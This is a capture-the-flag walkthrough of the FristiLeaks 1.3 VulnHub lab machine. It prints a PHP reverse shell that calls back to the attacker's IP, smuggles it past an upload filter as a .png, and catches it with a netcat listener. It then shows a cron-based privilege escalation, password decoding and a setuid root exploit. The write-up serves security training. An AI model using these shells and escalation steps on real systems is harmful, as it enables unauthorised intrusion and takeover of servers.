



#FristiLeaks: 1.3
https://www.vulnhub.com/entry/fristileaks-13,133/
This is a box of many, but small, steps.
0) Find the VM's IP
To find your VM's IP address, set your VM to ‘bridged’ so that it gets assigned an IP on your internal network and then use netdiscover to scan your network: netdiscover -r <internal network>/24
netdiscover -r 192.168.1.1/24
192.168.1.114 is my Fristi box.
As the vulnhub description says, if you're on vmware edit the VM's mac address to 08:00:27:A5:A6:76
Take a snapshot of the VM at this point, just to be safe.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 192.168.1.184
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@kali:~/ctf/fristileaks1.3# mkdir nmap
root@kali:~/ctf/fristileaks1.3# nmap -sC -sV -O -oN nmap/initial.txt 192.168.1.114
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 16:33 BST
Nmap scan report for Unknown-08-00-27-a5-a6-76.lan (192.168.1.114)
Host is up (0.00022s latency).
Not shown: 999 filtered ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
| http-methods:
|_ Potentially risky methods: TRACE
| http-robots.txt: 3 disallowed entries
|_/cola /sisi /beer
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10, Linux 2.6.32 - 3.13
Network Distance: 1 hop
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.57 seconds
Nothing new with a full port scan.
Alright, 80/http it is.
nmap has already provided some interesting information- /cola /sisi and /beer are in /robots.txt.
2) Drink!
http://192.168.1.114/robots.txt
User-agent: *
Disallow: /cola
Disallow: /sisi
Disallow: /beer
As we're told, neither of these URLs are what we were looking for.
What are all of these things: cola, sisi, beer? Drinks. (I had to google sisi)
The homepage tells us to drink fristi.
Fristi must be a drink also.
http://192.168.1.114/fristi
A login page!
3) Ha ha!
Nelson is lauging at us.
Right click > view source
A note at the top, along with a username - eezeepz
<!--
TODO:
We need to clean this up for production. I left some junk in here to make testing easier.
- by eezeepz
-->
And further down, a big comment of base64.
iVBORw0KGgoAAAANSUhEUgAAAW0AAABLCAIAAAA04UHqAAAAAXNSR0IArs4c6QAAAARnQU1BAACx
jwv8YQUAAAAJcEhZcwAADsMAAA7DAcdvqGQAAARSSURBVHhe7dlRdtsgEIVhr8sL8nqymmwmi0kl
S0iAQGY0Nb01//dWSQyTgdxz2t5+AcCHHAHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixw
B4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzkCwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL5kc+f
m63yaP7/XP/5RUM2jx7iMz1ZdqpguZHPl+zJO53b9+1gd/0TL2Wull5+RMpJq5tMTkE1paHlVXJJ
Zv7/d5i6qse0t9rWa6UMsR1+WrORl72DbdWKqZS0tMPqGl8LRhzyWjWkTFDPXFmulC7e81bxnNOvb
DpYzOMN1WqplLS0w+oaXwomXXtfhL8e6W+lrNdDFujoQNJ9XbKtHMpSUmn9BSeGf51bUcr6W+VjNd
jJQjcelwepPCjlLNXFpi8gktXfnVtYSd6UpINdPFCDlyKB3dyPLpSTVzZYnJR7R0WHEiFGv5NrDU
12qmC/1/Zz2ZWXi1abli0aLqjZdq5sqSxUgtWY7syq+u6UpINdOFeI5ENygbTfj+qDbc+QpG9c5
uvFQzV5aM15LlyMrfnrPU12qmC+Ucqd+g6E1JNsX16/i/6BtvvEQzF5YM2JLhyMLz4sNNtp/pSkg1
04VajmwziEdZvmSz9E0YbzbI/FSycgVSzZiXDNmS4cjCni+kLRnqizXThUqOhEkso2k5pGy00aLq
i1n+skSqGfOSIVsKC5Zv4+XH36vQzbl0V0t9rWb6EMyRaLLp+Bbhy31k8SBbjqpUNSHVjHXJmC2Fg
tOH0drysrz404sdLPW1mulDLUdSpdEsk5vf5Gtqg1xnfX88tu/PZy7VjHXJmC21H9lWvBBfdZb6Ws
30oZ0jk3y+pQ9fnEG4lNOco9UnY5dqxrhk0JZKezwdNwqfnv6AOUN9sWb6UMyR5zT2B+lwDh++Fl
3K/U+z2uFJNWNcMmhLzUe2v6n/dAWG+mLN9KGWI9EcKsMJl6o6+ecH8dv0Uu4PnkqDl2rGuiS8HK
ul9iMrFG9gqa/VTB8qORLuSTqF7fYU7tgsn/4+zfhV6aiiIsczlGrGvGTIlsLLhiPbnh6KnLDU12q
mD+0cKQ8nunpVcZ21Rj7erEz0WqoZ+5IRW1oXNB3Z/vBMWulSfYlm+hDLkcIAtuHEUzu/l9l867X34
rPtA6lmLi0ZrqX6gu37aIukRkVaylRfqpk+9HNkH85hNocTKC4P31Vebhd8fy/VzOTCkqeBWlrrFhe
EPdMjO3SSys7XVF+qmT5UcmT9+Ss//fyyOLU3kWoGLd59ZKb6Us10IZMjAP5b5AgAL3IEgBc5AsCLH
AHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixwB4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzk
CwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL3IEgBc5AsCLHAHgRY4A8Pn9/QNa7zik1qtycQAAAABJR
U5ErkJggg==
Considering it was so large, I pasted it into a file using nano and base64 decoded it.
Turns out it's a png.
Rename the decoded base64 file to a png and have a look
root@kali:~/ctf/fristileaks1.3/80http# nano base64.txt
root@kali:~/ctf/fristileaks1.3/80http# base64 -d base64.txt > base64d.txt
root@kali:~/ctf/fristileaks1.3/80http# cat base64d.txt
�PNG
�
IHDRm4�A�sRGB���gAMA��
...
root@kali:~/ctf/fristileaks1.3/80http# file base64d.txt
base64d.txt: PNG image data, 365 x 75, 8-bit/color RGB, non-interlaced
root@kali:~/ctf/fristileaks1.3/80http# mv base64d.txt base64d.png

We're being lauged at... or is it a password?
(I don't think there's any reasonable way you're supposed to know this, I just guessed after a bit and was lucky.)
eezeepz / keKkeKKeKKeKkEkkEk
Log in!
4) php.png
http://192.168.1.114/fristi/login_success.php


I'd like to upload a shell please, not an image.
root@kali:~/ctf/fristileaks1.3/80http# ls /usr/share/webshells/php
findsock.c php-findsock-shell.php qsd-php-backdoor.php
php-backdoor.php php-reverse-shell.php simple-backdoor.php
root@kali:~/ctf/fristileaks1.3/80http# cp /usr/share/webshells/php/php-reverse-shell.php .
root@kali:~/ctf/fristileaks1.3/80http# nano php-reverse-shell.php
Edit the shell's callback IP and port to that of your attacking machine.
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.183'; // CHANGE THIS
$port = 9001; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
//
// Daemonise ourself if possible to avoid zombies later
//
Sorry, is not a valid file. Only allowed are: png,jpg,gif
Sorry, file not uploaded.
Outrageous.
Fine, a png instead.
root@kali:~/ctf/fristileaks1.3/80http# mv php-reverse-shell.php monkey.php.png
Uploading, please wait
The file has been uploaded to /uploads.
Success!
Prep to receive the shell
root@kali:~/ctf/fristileaks1.3/80http# nc -lvnp 9001
listening on [any] 9001 ...
Run the reverse shell by visiting it:
http://192.168.1.114/fristi/uploads/monkey.php.png
And check back on your listener.
We have a shell!
root@kali:~/ctf/fristileaks1.3/80http# nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.183] from (UNKNOWN) [192.168.1.114] 45962
Linux Unknown-08-00-27-a5-a6-76 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
14:26:11 up 1:55, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.1$
5) crypted
Have a look around...
sh-4.1$ ls -alh /home
total 28K
drwxr-xr-x. 5 root root 4.0K Nov 19 2015 .
dr-xr-xr-x. 22 root root 4.0K Apr 9 12:30 ..
drwx------. 2 admin admin 4.0K Nov 19 2015 admin
drwx---r-x. 5 eezeepz eezeepz 12K Nov 18 2015 eezeepz
drwx------ 2 fristigod fristigod 4.0K Nov 19 2015 fristigod
sh-4.1$ ls -alh /home/eezeepz
total 2.6M
...
-r--r--r--. 1 eezeepz eezeepz 514 Nov 18 2015 notes.txt
...
sh-4.1$ cat /home/eezeepz/notes.txt
Yo EZ,
I made it possible for you to do some automated checks,
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/
Don't forget to specify the full path for each binary!
Just put a file called "runthis" in /tmp/, each line one command. The
output goes to the file "cronresult" in /tmp/. It should
run every minute with my account privileges.
- Jerry
We can run chmod, df, cat, echo, ps, grep and egrep as user admin if we specify the full path of the binary
e.g. /home/admin/chmod
and put it in a file called runthis in /tmp
and wait 1 minute.
I tried a few things. Eventually I decided to give myself read access to /home/admin
sh-4.1$ cd /tmp
sh-4.1$ touch runthis
sh-4.1$ ls
runthis
sh-4.1$ echo "/home/admin/chmod 777 /home/admin" > runthis
sh-4.1$ cat runthis
/home/admin/chmod 777 /home/admin
sh-4.1$ ls -alh /home/admin
total 652K
drwxrwxrwx. 2 admin admin 4.0K Nov 19 2015 .
drwxr-xr-x. 5 root root 4.0K Nov 19 2015 ..
-rw-r--r--. 1 admin admin 18 Sep 22 2015 .bash_logout
-rw-r--r--. 1 admin admin 176 Sep 22 2015 .bash_profile
-rw-r--r--. 1 admin admin 124 Sep 22 2015 .bashrc
-rwxr-xr-x 1 admin admin 45K Nov 18 2015 cat
-rwxr-xr-x 1 admin admin 48K Nov 18 2015 chmod
-rw-r--r-- 1 admin admin 737 Nov 18 2015 cronjob.py
-rw-r--r-- 1 admin admin 21 Nov 18 2015 cryptedpass.txt
-rw-r--r-- 1 admin admin 258 Nov 18 2015 cryptpass.py
-rwxr-xr-x 1 admin admin 89K Nov 18 2015 df
-rwxr-xr-x 1 admin admin 24K Nov 18 2015 echo
-rwxr-xr-x 1 admin admin 160K Nov 18 2015 egrep
-rwxr-xr-x 1 admin admin 160K Nov 18 2015 grep
-rwxr-xr-x 1 admin admin 84K Nov 18 2015 ps
-rw-r--r-- 1 fristigod fristigod 25 Nov 19 2015 whoisyourgodnow.txt
sh-4.1$ cat cryptedpass.txt
mVGZ3O3omkJLmy2pcuTq
sh-4.1$ cat cryptpass.py
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys
def encodeString(str):
base64string= base64.b64encode(str)
return codecs.encode(base64string[::-1], 'rot13')
cryptoResult=encodeString(sys.argv[1])
print cryptoResult
sh-4.1$ cat whoisyourgodnow.txt
=RFn0AKnlMHMPIzpyuTI0ITG
So we've found 2 “encrypted� passwords.
cryptedpass.txt - mVGZ3O3omkJLmy2pcuTq
whoisyourgodnow.txt - =RFn0AKnlMHMPIzpyuTI0ITG
And a python script which has been used to encrypted them:
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys
def encodeString(str):
base64string= base64.b64encode(str)
return codecs.encode(base64string[::-1], 'rot13')
cryptoResult=encodeString(sys.argv[1])
print cryptoResult
Thankfully this is nice and simple.
1. The string gets base64 encoded - base64string= base64.b64encode(str)
2. The base64 encoded string gets reversed - base64string[::-1]
3. And finally, the reversed base64 encoded string getsrot13'd - codecs.encode(base64string[::-1], 'rot13')
We just have to reverse this process to get the original string.
1. rot13 the base64 encoded string we currently have
2. Reverse it
2. Base64 decode the un-rot13'd, un-reversed string
Here's a bash 1 liner:
root@kali:~/ctf/fristileaks1.3# echo "mVGZ3O3omkJLmy2pcuTq" | tr 'A-Za-z' 'N-ZA-Mn-za-m' | rev | base64 -d
thisisalsopw123
root@kali:~/ctf/fristileaks1.3# echo "=RFn0AKnlMHMPIzpyuTI0ITG" | tr 'A-Za-z' 'N-ZA-Mn-za-m' | rev | base64 -d
LetThereBeFristi!
| pipes the output of the command to whatever you enter next
echo the encrypted string - echo "mVGZ3O3omkJLmy2pcuTq"
pipe it to rot13 - | tr 'A-Za-z' 'N-ZA-Mn-za-m'
pipe it to reverse string - | rev
pipe to base64 decode - | base64 -d
6) root beer
Upgrade your shell first, then you'll be able to switch user to fristigod
sh-4.1$ which python
/usr/bin/python
sh-4.1$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.1$ su fristigod
Password: LetThereBeFristi!
bash-4.1$
Once I get access to a new user on a system, I have a look at what files that user owns to (maybe) find stuff I couldn't previously access
find / -user fristigod 2>/dev/null
bash-4.1$ find / -user fristigod 2>/dev/null
/proc/3063
/proc/3063/task
/proc/3063/task/3063
...
/var/fristigod
/var/fristigod/.bash_history
/var/fristigod/.secret_admin_stuff
/var/fristigod looks interesting.
We find a setuid binary called doCom (presumably stands for ‘do command’?)
doCom will run as root because it's owned by root and because it has a setuid bit (the S)
-rwsr-sr-x 1 root root 7.4K Nov 25 2015 doCom
setuid bits make a binary run with the privileges of its owner.
Reading .bash_history tells us how to use the binary- sudo -u fristi ./doCom <command>
bash-4.1$ cd /var/fristigod
bash-4.1$ ls -alh
total 16K
drwxr-x--- 3 fristigod fristigod 4.0K Nov 25 2015 .
drwxr-xr-x. 19 root root 4.0K Nov 19 2015 ..
-rw------- 1 fristigod fristigod 864 Nov 25 2015 .bash_history
drwxrwxr-x. 2 fristigod fristigod 4.0K Nov 25 2015 .secret_admin_stuff
bash-4.1$ cat .bash_history
...
sudo -u fristi ./doCom ls /
...
exit
bash-4.1$ cd .secret_admin_stuff
bash-4.1# ls -alh
total 16K
drwxrwxr-x. 2 fristigod fristigod 4.0K Nov 25 2015 .
drwxr-x--- 3 fristigod fristigod 4.0K Nov 25 2015 ..
-rwsr-sr-x 1 root root 7.4K Nov 25 2015 doCom
bash-4.1$ file doCom
doCom: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
bash-4.1$ ./doCom bash
Nice try, but wrong user ;)
bash-4.1$ sudo -u fristi ./doCom /bin/bash
bash-4.1# id
id
uid=0(root) gid=100(users) groups=100(users),502(fristigod)
bash-4.1#
Root!
Drink fristi.